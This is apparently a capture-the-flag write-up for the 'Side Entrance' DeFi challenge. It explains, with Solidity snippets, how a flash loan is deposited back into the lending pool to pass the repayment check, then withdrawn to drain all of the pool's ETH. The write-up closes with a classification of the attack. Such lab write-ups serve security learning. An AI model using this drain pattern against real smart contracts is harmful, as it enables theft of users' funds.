

# Side Entrance

## Challenge

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

## Solution

To exploit the vulnerability,I created an attack contract to inherit the execute function from the interface.

```
contract Attacker is IFlashLoanEtherReceiver
```

Then I called the flashLoan function from the attack contract and borrowed all the ETH in the pool contract,which in turn called the execute function of the interface.I used this to deposit some ETH into the pool.

```
function execute() external payable override {
        require(msg.sender == address(pool), "Only pool can call this function");

        pool.deposit{value: ETHER_IN_POOL}();
    }
```

This check would pass because the amount I borrowed is what I deposited.

```
if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
```

Then I can withdraw from the pool and transfer to the recovery account,since address has been added to the mapping from the deposit function.

```
function withdraw() public {
        pool.withdraw();
        (bool success,) = payable(recovery).call{value:ETHER_IN_POOL}("");
        require(success,"call failed");
    }
```



## Attack Classification

### Economic Exploit
The attacker economically exploited the pool by borrowing and "recycling" ETH without providing real collateral, thereby draining the pool's entire balance.

### Access Control Misconfiguration
The vulnerability lies in poor access control. The pool allowed sensitive operations (like deposits and withdrawals) to be executed by untrusted borrowers, enabling unauthorized draining of funds.

### State Manipulation
The attacker leveraged state manipulation by temporarily increasing their "deposit balance" through a flash loan, allowing withdrawal of funds they never truly owned.

### DoS (Denial of Service)
By draining all funds from the pool, the attacker rendered the pool inoperable for other users who might want to access flash loans or make legitimate deposits.

